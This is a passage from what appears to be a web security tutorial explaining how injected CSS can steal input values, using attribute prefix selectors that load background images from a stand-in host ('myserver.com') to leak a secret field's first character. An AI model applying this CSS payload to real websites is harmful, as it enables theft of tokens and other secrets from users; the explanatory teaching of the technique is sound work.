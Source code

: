 ## Stealing Data with CSS

CSS is indeed used to decorate web pages, but by combining two features, CSS can be used to steal data.

The first feature is attribute selectors.

In CSS, there are several selectors that can select "elements whose attributes match certain conditions." For example, `input[value^=a]` selects elements whose value starts with `a`.

Similar selectors include:

1. `input[value^=a]` starts with a (prefix)
2. `input[value$=a]` ends with a (suffix)
3. `input[value*=a]` contains a (contains)

The second feature is that CSS can send requests, such as loading a background image from a server, which is essentially sending a request.

Suppose there is a piece of content on the page `<input name="secret" value="abc123">`, and I can insert any CSS. I can write it like this:

``` css
input[name="secret"][value^="a"] {
  background: url(https://myserver.com?q=a)
}

input[name="secret"][value^="b"] {
  background: url(https://myserver.com?q=b)
}

input[name="secret"][value^="c"] {
  background: url(https://myserver.com?q=c)
}

//....

input[name="secret"][value^="z"] {
  background: url(https://myserver.com?q=z)
}
```

What will happen?

Because the first rule has found the corresponding element, the background of the input will be an image from the server, and the browser will send a request to `https://myserver.com?q=a`.

Therefore, when I receive this request on the server, I know that "the first character of the value attribute of the input is a," and I have successfully stolen the first character.

This is why CSS can steal data. By combining attribute selectors with the ability to load images, the server can know the attribute value of a certain element on the page.

Now that we have confirmed that CSS can steal attribute values, there are two questions:

1. What can be stolen?
2. You only demonstrated stealing the first character, how do you steal the second character?
